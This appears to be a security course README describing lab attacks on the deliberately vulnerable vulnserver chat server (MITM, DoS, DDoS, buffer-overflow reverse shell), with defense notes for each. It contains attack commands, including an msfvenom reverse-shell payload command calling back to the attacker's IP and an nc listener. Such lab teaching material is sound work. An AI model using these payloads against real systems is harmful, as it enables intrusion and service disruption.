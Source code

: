 # Attacks against vulnserver

- [MITM](#mitm)
- [DoS](#dos)
- [DDoS](#ddos)
- [Armitage against vchat](../../MetasploitNewModule)
- [Reverse shell utilizing buffer overflow](#reverse-shell)
- [More buffer overflow attacks](../../Buffer-Overflow/BOF-Remote/)
- [More attacks against vnserver](https://github.com/llan-OuO/VulserverAttacks)

## Test setting
- Local host (kali VM): 10.0.2.8
- Victim host (Windows 10 VM: 10.0.2.7

## MITM
### Attack
This attack shows how a message may be changed by the chat server, which works as the man in the middle (MITM) between two chat clients, if there is no protection (interity). To enabe the attack, the chat server owner (bad guy) can do the following

1. Use telnet to connect to the chat server
```
telnet 10.0.2.7 9999
```

2. Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/1dctJFBwZcI/0.jpg)](https://youtu.be/1dctJFBwZcI)

### Defense
* [Hash](https://www.cyberciti.biz/faq/linux-md5-hash-string-based-on-any-input-string/) - What is the problem if only hash is used?

```
echo -n 'Your-String-Here' | md5sum
```

* [HMAC with hash (SHA or MD5)](https://dinochiesa.github.io/hmachash/index.html)
* [Digital signature](https://opensource.com/article/19/6/cryptography-basics-openssl-part-2) - Note: 2048 in the following command is used in the wrong way.
```
openssl genpkey -out privkey.pem -algorithm rsa 2048
```
Correct command is
```
openssl genpkey -out privkey.pem -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Or 2048 can be skipped since the default key size is 2048.

Example signature generation and verification process
```
openssl genpkey -out privkey.pem -algorithm rsa
openssl rsa -in privkey.pem -outform PEM -pubout -out pubkey.pem
openssl dgst -sha256 -sign privkey.pem -out sign.sha256 changelog
openssl enc -base64 -in sign.sha256 -out sign.sha256.base64
openssl enc -base64 -d -in sign.sha256.base64 -out sign.sha256
openssl dgst -sha256 -verify pubkey.pem -signature sign.sha256 changelog
```

## DoS
DoS.py
### Attack
This attack exploits the buffer overflow issue of vulnserver and sends a long message, which causes buffer overflow and crash of vulnserver.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/_F88Txt7Qk0/0.jpg)](https://youtu.be/_F88Txt7Qk0)

### Defense
The attack above utilizes the buffer overflow vulnerability of vulnserver. Secure coding is needed for defense. Dangerous functions such as strcpy(.) cannot be used.

## DDoS
DDoS.py
### Attack
Since vulnserver allows only a limited number of connections, this attack creates a lot of connections to vulnserver so that no more new connections can be created and no new user can use vulnserver for chatting.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/lOR4hpPfPws/0.jpg)](https://youtu.be/lOR4hpPfPws)

### Defense
DDoS is often is hard to defeat. In this particular case, an attacker creates a lot of connections to the chat server. For defense, we may need to monitor the number of connections from an inidvidual user.

## reverse-shell
reverse-shell.py
### Attack
This attacks ubtilizes the buffer overflow vulnerability of vulnserver and sends a reverse tcp shell payload, which connects back to the attack and spawns a shell at the attacker.
To receive the reverse shell, run the following command at a terminal of Kali VM
```
nc -l -v -p 4444
``` 

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/LRNZxCC84RI/0.jpg)](https://youtu.be/LRNZxCC84RI)

### Notes
1. If the test setting above is used, the python attacking code works directly with no need of change.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, essfunc.dll does not use ASLR and there is no need of changing the address of *jmp esp* when Windows 10 reboots.
3. If the ip of the local host (attacker's computer) is 10.0.2.8, no need of generating the shellcode using the following command
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!-- ![msfvenom](../../imgs/msfvenom.PNG) -->

### Defense
First secure coding is needed to avoid buffer overflow vulnerabilities.

* Windows has a lot of secure features, including those defeating memory based attacks. Sloppy coding is always there and people have cooked up defense mechnisms in case it happens. 

To enable all features of Exploit Protection of Windows, find :mag_right: at the bottom-left corner of Windows screen and search "Exploit Protection".

<img src="../../imgs/WindowsExploitProtection.png" width="25%">

* Virus & threat protection shall be enabled too. At the bottom-left corner of Windows screen and search "Virus". In this picture below, all those features are turned off.
<img src="../../imgs/VirusProtection.png" width="75%">
